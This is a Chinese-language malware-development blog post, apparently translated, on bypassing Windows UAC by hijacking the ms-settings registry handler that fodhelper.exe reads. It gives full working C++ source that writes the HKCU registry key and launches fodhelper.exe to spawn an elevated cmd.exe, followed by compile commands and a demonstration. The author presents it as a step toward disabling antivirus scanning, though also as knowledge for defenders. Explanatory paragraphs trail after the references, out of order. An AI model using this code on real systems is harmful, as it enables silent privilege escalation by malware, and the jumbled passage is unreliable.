\newpage
\subsection{恶意软件 AV/VM 规避（第 13 部分，博客第 17 篇）：通过 fodhelper.exe 绕过 UAC（简单的 C++ 示例）}

这篇文章是我某个研究项目的中间结果，该项目旨在通过剥夺杀毒软件扫描的权限来绕过它。

{width="80%"}

所以这是我自己在第一步上的研究成果，一个有趣的 UAC 绕过技巧：通过 `fodhelper.exe` 配合注册表修改。

### 注册表修改

最常见的项值滥用涉及对 `windir` 和 `systemroot` 环境变量的操纵，以及针对特定文件扩展名的 shell open 命令（取决于所针对的程序）：

`HKCU\Software\Classes\<targeted_extension>\shell\open\command`（Default 或 DelegateExecute 值）

`HKCU\Environment\windir`

`HKCU\Environment\systemroot`

### fodhelper.exe

`fodhelper.exe` 是在 Windows 10 中引入的，用于管理诸如区域特定键盘设置之类的可选功能。

{width="80%"}

所以，当恶意软件以中等完整性级别的进程启动 `fodhelper`（我们知道，这是一个无需 UAC 提示即可提升权限的 Windows 二进制文件）时，Windows 会自动把 `fodhelper` 从中等完整性提升为高完整性进程。

随后，高完整性的 `fodhelper` 会尝试使用该文件的默认处理程序打开一个 `ms-settings` 文件。

{width="80%"}

由于中等完整性的恶意软件已经接管了这个处理程序，提升后的 `fodhelper` 就会以高完整性进程的身份执行攻击命令。

### 实战示例

首先，创建注册表项并设置值——也就是我们的注册表修改步骤：

```cpp
HKEY hkey;
DWORD d;

const char* settings = "Software\\Classes\\ms-settings\\Shell\\Open\\command";
const char* cmd = "cmd /c start C:\\Windows\\System32\\cmd.exe"; // default program
const char* del = "";

// attempt to open the key
LSTATUS stat = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)settings, 0, NULL, 0, 
KEY_WRITE, NULL, &hkey, &d);
printf(stat != ERROR_SUCCESS ? "failed to open or create reg key\n" : 
"successfully create reg key\n");

// set the registry values
stat = RegSetValueEx(hkey, "", 0, REG_SZ, (unsigned char*)cmd, strlen(cmd));
printf(stat != ERROR_SUCCESS ? "failed to set reg value\n" : 
"successfully set reg value\n");

stat = RegSetValueEx(hkey, "DelegateExecute", 0, REG_SZ, (unsigned char*)del, 
strlen(del));
printf(stat != ERROR_SUCCESS ? "failed to set reg value: DelegateExecute\n" : 
"successfully set reg value: DelegateExecute\n");

// close the key handle
RegCloseKey(hkey);
```

如你所见，只要在 `HKCU:\Software\Classes\ms-settings\` 下创建一个新的注册表结构，就能完成 UAC 绕过。

然后，启动已提升的应用：

```cpp
 // start the fodhelper.exe program
SHELLEXECUTEINFO sei = { sizeof(sei) };
sei.lpVerb = "runas";
sei.lpFile = "C:\\Windows\\System32\\fodhelper.exe";
sei.hwnd = NULL;
sei.nShow = SW_NORMAL;

if (!ShellExecuteEx(&sei)) {
  DWORD err = GetLastError();
  printf (err == ERROR_CANCELLED ? "the user refused to allow privileges elevation.\n" : "unexpected error! error code: %ld\n", err);
} else {
  printf("successfully create process =^..^=\n");

return 0;
```

就这些了。

完整源代码看起来是这样的 `hack.c`：

```cpp
/*
 * hack.c - bypass UAC via fodhelper.exe
 * (registry modifications). C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/06/19/malware-av-evasion-17.html
*/
#include <windows.h>
#include <stdio.h>

int main() {
  HKEY hkey;
  DWORD d;

  const char* settings = "Software\\Classes\\ms-settings\\Shell\\Open\\command";
  const char* cmd = "cmd /c start C:\\Windows\\System32\\cmd.exe"; 
  // default program
  const char* del = "";

  // attempt to open the key
  LSTATUS stat = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)settings, 0, NULL, 
  0, KEY_WRITE, NULL, &hkey, &d);
  printf(stat != ERROR_SUCCESS ? "failed to open or create reg key\n" : 
  "successfully create reg key\n");

  // set the registry values
  stat = RegSetValueEx(hkey, "", 0, REG_SZ, (unsigned char*)cmd, strlen(cmd));
  printf(stat != ERROR_SUCCESS ? "failed to set reg value\n" : 
  "successfully set reg value\n");

  stat = RegSetValueEx(hkey, "DelegateExecute", 0, REG_SZ, (unsigned char*)
  del, strlen(del));
  printf(stat != ERROR_SUCCESS ? "failed to set reg value: DelegateExecute\n" 
  : "successfully set reg value: DelegateExecute\n");

  // close the key handle
  RegCloseKey(hkey);

  // start the fodhelper.exe program
  SHELLEXECUTEINFO sei = { sizeof(sei) };
  sei.lpVerb = "runas";
  sei.lpFile = "C:\\Windows\\System32\\fodhelper.exe";
  sei.hwnd = NULL;
  sei.nShow = SW_NORMAL;

  if (!ShellExecuteEx(&sei)) {
  DWORD err = GetLastError();
  printf (err == ERROR_CANCELLED ? "the user refused to allow privileges 
  elevation.\n" : 
  "unexpected error! error code: %ld\n", err);
  } else {
  printf("successfully create process =^..^=\n");
  }

  return 0;

```

### 演示

我们来看看一切的实际运行。

```powershell
reg query "HKCU\Software\Classes\ms-settings\Shell\open\command"
```

{width="80%"}

另外，检查我们当前的权限：

```powershell
whoami /priv
```

{width="80%"}

在攻击者的机器上编译我们的 `hack.c` PoC：

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

{width="80%"}

然后，直接在受害机器上运行它（我的例子是 Windows 10 x64 1903）：

```powershell
.\hack.exe
```

{width="80%"}

我们可以看到，`cmd.exe` 被启动了。

```powershell
reg query "HKCU\Software\Classes\ms-settings\Shell\open\command"
```

{width="80%"}

再次检查注册表结构：

Check privileges in our launched `cmd.exe` session:

```powershell
whoami /priv
```

{width="80%"}

我们可以看到，注册表已经被成功修改。

{width="80%"}

检查我们启动的 `cmd.exe` 会话中的权限：

{width="80%"}

{width="80%"}

我们可以看到一切都完美工作了！=..=

Glupteba 恶意软件利用这一方法，先从中等完整性提升到高完整性进程，然后通过 Token Manipulation 再从高完整性提升到 System 完整性。

我希望这篇文章能让蓝队意识到这项有趣的绕过技术，同时为红队的武器库增添一件武器。

[MITRE ATT&CK: Modify registry](https://attack.mitre.org/techniques/T1112/)  
[Glupteba](https://malpedia.caad.fkie.fraunhofer.de/details/win.glupteba)  
[source code in github](https://github.com/cocomelonc/meow/tree/master/2023-06-19-malware-av-evasion-17)

修改注册表项的过程，其最终目标是把一个已提升程序的执行流重新路由到一个已被我们接管的命令上。

它的位置是 `C:\Windows\System32\fodhelper.exe`，并且由微软签名：

当 `fodhelper.exe` 启动时，Process Monitor 开始捕获该进程，并披露（除其他内容外）所有注册表和文件系统的读/写操作。

注册表读取访问是最耐人寻味的活动之一，尽管某些特定的项或值并没有被发现。

因为我们不需要特殊权限就能修改条目，所以 `HKEY_CURRENT_USER` 注册表项特别适合用来测试在创建新的注册表项之后程序行为可能发生的变化。

`fodhelper.exe` 会搜索 `HKCU:\Software\Classes\ms-settings\shell\open\command`。

这个项在 Windows 10 中默认不存在：

我们来为这个逻辑创建 PoC。

首先，检查注册表：
